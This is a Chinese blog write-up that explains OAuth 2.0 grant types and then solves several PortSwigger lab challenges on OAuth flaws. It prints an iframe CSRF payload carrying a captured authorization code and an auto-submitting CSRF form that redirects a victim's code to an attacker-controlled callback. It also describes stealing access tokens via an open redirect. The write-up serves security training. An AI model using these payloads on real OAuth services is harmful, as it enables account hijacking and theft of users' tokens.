

简介
什么是OAuth 2.0
OAuth是一个关于授权（authorization）的开放网络标准，在全世界得到广泛应用
运行流程
- 用户打开客户端以后，客户端要求用户给予授权。
- 用户同意给予客户端授权。
- 客户端使用上一步获得的授权，向认证服务器申请令牌。
- 认证服务器对客户端进行认证以后，确认无误，同意发放令牌。
- 客户端使用令牌，向资源服务器申请获取资源。
- 资源服务器确认令牌无误，同意向客户端开放资源。
当然关键的是第二步中的用户授权，需要保证其安全性
授权的方法
authorization code
授权码模式（authorization code）是功能最完整、流程最严密的授权模式。它的特点就是通过客户端的后台服务器，与”服务提供商”的认证服务器进行互动
授权码模式的流程：
- 用户访问客户端，后者将前者导向认证服务器。
- 用户选择是否给予客户端授权。
- 假设用户给予授权，认证服务器将用户导向客户端事先指定的”重定向URI”（redirection URI），同时附上一个授权码。
- 客户端收到授权码，附上早先的”重定向URI”，向认证服务器申请令牌。这一步是在客户端的后台的服务器上完成的，对用户不可见。
- 认证服务器核对了授权码和重定向URI，确认无误后，向客户端发送访问令牌（access token）和更新令牌（refresh token）。
implicit
简化模式（implicit grant type）不通过第三方应用程序的服务器，直接在浏览器中向认证服务器申请令牌，跳过了”授权码”这个步骤，因此得名。所有步骤在浏览器中完成，令牌对访问者是可见的，且客户端不需要认证
简化模式的流程：
- 客户端将用户导向认证服务器。
- 用户决定是否给于客户端授权。
- 假设用户给予授权，认证服务器将用户导向客户端指定的”重定向URI”，并在URI的Hash部分包含了访问令牌。
- 浏览器向资源服务器发出请求，其中不包括上一步收到的Hash值。
- 资源服务器返回一个网页，其中包含的代码可以获取Hash值中的令牌。
- 浏览器执行上一步获得的脚本，提取出令牌。
- 浏览器将令牌发给客户端。
resource owner password credentials
密码模式（Resource Owner Password Credentials Grant）中，用户向客户端提供自己的用户名和密码。客户端使用这些信息，向”服务商提供商”索要授权。
密码模式流程：
- 用户向客户端提供用户名和密码。
- 客户端将用户名和密码发给认证服务器，向后者请求令牌。
- 认证服务器确认无误后，向客户端提供访问令牌。
client credentials
客户端模式（Client Credentials Grant）指客户端以自己的名义，而不是以用户的名义，向”服务提供商”进行认证。严格地说，客户端模式并不属于OAuth框架所要解决的问题。在这种模式中，用户直接向客户端注册，客户端以自己的名义要求”服务提供商”提供服务，其实不存在授权问题
流程：
- 客户端向认证服务器进行身份认证，并要求一个访问令牌。
- 认证服务器确认无误后，向客户端提供访问令牌。
漏洞细节
为什么会造成这种情况？
主要是因为他缺乏内置的安全功能，安全的成败几乎在于使用者的正确的配置，就比如说下面的通过输入框来进行验证的方式，在传送数据的过程中并没有对数据本身进行加密处理，造成了攻击者完全可以拦截数据包获取关键信息，并且可以构造恶意的数据包达到自己恶意的目的等等，而且不同的授权方法有不同的特点，根据授权类型，高度敏感的数据也会通过浏览器发送，这为攻击者提供了各种拦截数据的机会。
哪里使用了这样的认证方式？
想要识别使用了OAuth方法进行身份验证，我们可以通过如下方法
- 按照上面的做法，使用burp进行数据包的拦截，基本所有的的认证请求都是通过
/authorization开始的，并且携带了类似于Client_id等识别信息 - 如果在登陆具有使用第三方社交软件进行登陆的地方，一般都是采用的
OAuth 2.0进行认证
漏洞利用
OAuth客户端中的利用
Improper implementation of the implicit grant type
如果是采用的implicit类型的认证方法
首先token是通过url的形式从OAuth服务端发送到了客户端，客户端为了保持会话的持久性，通过POST请求将自身的数据发送到了服务端，服务端返回给客户端一个cookie进行持久化登陆，这样，就造成了攻击者可以拦截客户端的数据包，如果客户端程序没有正确检查token是否和其他数据匹配，攻击者就可以对象数据进行伪造发送，冒充任意用户
当然，如果将发送的数据加密呢，当然可以，但是在这个类型方法中，服务端和客户端没有一个共同密钥进行解密操作，所以两者之间是默认信任的
Lab: Authentication bypass via OAuth implicit flow
看看靶场的描述吧
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users’ accounts without knowing their password.
To solve the lab, log in to Carlos’s account. His email address is
carlos@carlos-montoya.net.You can log in with your own social media account using the following credentials:
wiener:peter.
大概的意思就是我们通过输入用户名为wiener密码为peter的账户，达到登陆carlos@carlos-montoya.net这个邮件的账户，形成一个权限绕过的漏洞
分析
点击Access the lab打开靶场，之后使用burp抓包，并登陆wiener的账户，观察具体的OAuth认证流程
因为我这里已经成功了，所以存在有记录，就直接发送client_id直接认证成功了的，如果是初次查看的时候可以看见完整的流程
好吧，这里我还是把靶场重启了一下
可以从上面看到他的流程：
首先携带client_id访问auth路由向认证服务端请求授权
并且附带了重定向url，回复类型和请求资源返回等等字段
之后重定向url, 然后输入了账号密码进行认证，在登陆之后进行了一次重定向操作进行认证操作
一直到后面将会在向/authenticate路由发送POST请求的时候携带email username token等信息进行验证
并且最后重定向到了博客首页
我们可以/authenticate路由处进行bypass, 将数据包发送到Repeater重发器中，进行修改email字段达到登陆其他用户的目的

成功触发了302跳转，并且返回了一个cookie信息，方便再token有效期限内进行资源的获取
最后我们携带cookie在浏览器中方法查看是否变为了carlos用户，在Repeater中右击 -> Request in Browser -> in original session
复制到浏览器访问
成功bypass了权限认证，获取了绕过了登陆验证，造成了任意登陆的安全问题
Flawed CSRF protection
造成这个漏洞的原因主要是因为错误配置OAuth组件，比如说state参数的配置
这个参数一般都是与会话信息相关联的一个hash值，在服务端和客户端之间来回传递，作为客户端的CSRF令牌
所以说，如果没有配置这个参数的时候，攻击者可以通过将户端端绑定到自己的账户来劫持客户端账户
Lab: Forced OAuth profile linking
描述
This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users’ accounts.
To solve the lab, use a CSRF attack to attach your own social media profile to the admin user’s account on the blog website, then access the admin panel and delete Carlos.
分析
按照上面的方法，单击My account登陆账户
登陆成功之后跳转到了my/-account路由
这里存在一个选项，能够将社交账号绑定到帐号中来
点击Attach a social profile，之后使用靶场给的社交信息登陆
值得注意的是，在进行请求的时候，redirect_uri中将授权代码发送到了/oauth-linking路由中，特别的是，这里并没有state参数的存在，存在有CSRF漏洞
在burp中开启拦截器，重新加载社交账号
首先是访问传递client_id，将其放行
之后一直放行，出现了
点击continue进行认证，一直放包，最后出现了带有授权码的url，并复制这个url链接

url: https://0ad800510493bb41c0ae20b800aa004d.web-security-academy.net/oauth-linking?code=k8gw_duVfcBUiN1irp_BkqHe8n_m9t06knW5iRVerQY
在之后直接将数据包丢掉，以免使用了这个授权码，形成了有效的登陆
之后在其内置的漏洞利用服务器中添加能够造成CRSF漏洞的代码
<iframe src="https://0ad800510493bb41c0ae20b800aa004d.web-security-academy.net/oauth-linking?code=k8gw_duVfcBUiN1irp_BkqHe8n_m9t06knW5iRVerQY"></iframe>·
最后点击Deliver exploit to victim将漏洞利用传递给了客户端，当其加载了iframe标签的时候将使用恶意的社交媒体配置文件完成 OAuth 流程，并将其附加到博客网站上的管理员帐户
之后退出账户重新使用社交账户进行登陆
已经成为了管理员账户，之后删除掉carlos账户完成漏洞利用
OAuth服务端中的利用
Leaking authorization codes and access tokens
根据授权类型，代码获取token将被发送到授权请求的redirect_uri参数中的位置，如果服务端没有正确的校验这个URI，攻击者就能够通过这个漏洞将客户端的codes 和 token发送到攻击者控制的redirect_uri参数指定位置。那么攻击者就可以利用这些信息发送到服务端合法的redirect_uri地址中，就能成功获取用户的账户的访问权限
Lab: OAuth account hijacking via redirect_uri
This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users’ accounts.
To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.
The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
分析
按照相同的手法登陆账户形成一个会话，之后logout账户，再次登陆账户发现不需要输入凭证了，那是因为有一个会话存在，观察http请求中
设置了重定向的url,我们将数据包发送到Repeater中修改redirect_url
无论修改为什么，他都不会报错，且能够达到重定向的目的，我们就将这个参数改为恶意的服务器
之后查看日志，可以发现携带了一个授权码的链接

说明这里存在漏洞，能够将授权码泄漏到外部域中
我们首先抓取登陆账户的client_id页面的数据包，使用burp自带的CRSF生成方式生成poc
值得主意的是这里的poc是不能自动提交的，我们可以添加aaa.submit()自己提交
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://oauth-0a29007803ee0541c09844c7023800f4.web-security-academy.net/auth" name="aaa">
<input type="hidden" name="client_id" value="i1lie2anm0etkpo3cphwt" />
<input type="hidden" name="redirect_uri" value="https://exploit-0afb008c035005b4c09b44ed014b007d.web-security-academy.net/oauth-callback" />
<input type="hidden" name="response_type" value="code" />
<input type="hidden" name="scope" value="openid profile email" />
<input type="submit" value="Submit request" />
</form>
<script>aaa.submit();</script>
</body>
</html>我们可以测试这个是否可行，在漏洞利用服务器中的View选项，可以发送payload
可以在日志记录中发现生成的授权码
我们直接攻击受害者，也成功返回了admin的授权码
使用授权码，加上原始redirect_uri登陆
成功登陆admin
Stealing codes and access tokens via a proxy page
这个应该是上一个的升级版，redirect_uri不能传递到外部域当中，但是也提出了一种利用的思路
可以尝试找到可以成功访问不同子域或路径得方法，可以通过目录穿越来寻找白名单
Lab: Stealing OAuth access tokens via an open redirect
分析
同样的步骤进行首次登陆，之后再次登陆，获取client_id
虽然redirect_uri不能指定外部域，但是我们可以发现这里存在一个目录穿越漏洞，我们可以通过../进行穿越
同时我们可以发现在下一篇文章中对应的/post/next?path=参数存在有开方式重定向，甚至可以指定完整域名进行重定向
将漏洞利用传递给受害者，然后从日志中复制他们的token。在 Repeater 中，转到 GET /me 请求并将 Authorization: Bearer 标头中的token替换为您刚刚复制的token。发送请求。观察您已成功进行 API 调用以获取受害者的数据，包括他们的 API 密钥。


- Post link: https://roboterh.github.io/2022/07/23/%E6%B5%85%E6%9E%90OAuch-vul/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.